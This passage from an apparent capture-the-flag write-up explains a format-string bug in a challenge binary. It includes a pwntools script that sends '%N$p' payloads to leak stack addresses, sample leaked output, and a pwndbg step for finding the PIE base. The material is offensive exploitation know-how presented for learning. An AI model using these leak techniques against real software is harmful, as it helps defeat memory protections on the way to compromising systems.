 However, there are a lot of addresses on the stack, and we want to find one that is useful to us.

Let's build a script to do just that.

```py
from pwn import *

context.log_level = 'error'
context.binary = "./chall"

for i in range(50):
    try:
        p = process("./chall")
        payload = '%{}$p'.format(i).encode()
        p.sendlineafter("flavour: \n", payload)
        p.recvuntil("taste: \n")
        result = p.recvline().strip().decode()
        print("Address @{}: ".format(i) + result)
    except EOFError:
        pass
```

This script does the following:
1. removes all unnecessary output except errors
2. loops 50 times to take 50 addresses off the stack

We would then see the following results
```shell
Address @0: %0$p
Address @1: 0x7ff9af325643
Address @2: (nil)
Address @3: 0x7fd20016f210
Address @4: (nil)
Address @5: (nil)
Address @6: 0xa70243625
Address @7: (nil)
Address @8: 0x7ffe611f7868
Address @9: 0x7ffc5694d590
Address @10: (nil)
Address @11: 0x7ffdb739dd38
Address @12: 0x7ffeb6ec7e40
Address @13: 0x562a91e00a49
...
```

You might be wondering: Which given we see above addresses do we use?

You can do this to check (the binary must be running):
```shell
# run this command if PIE is enabled
pwndbg> piebase
Calculated VA from <YOUR_DIR> = 0x555555400000
```

We want to actually use the one that is in the `0x555555400000` range, thus the 13th value of the stack. (FYI those that start with `7ff` are libc functions)
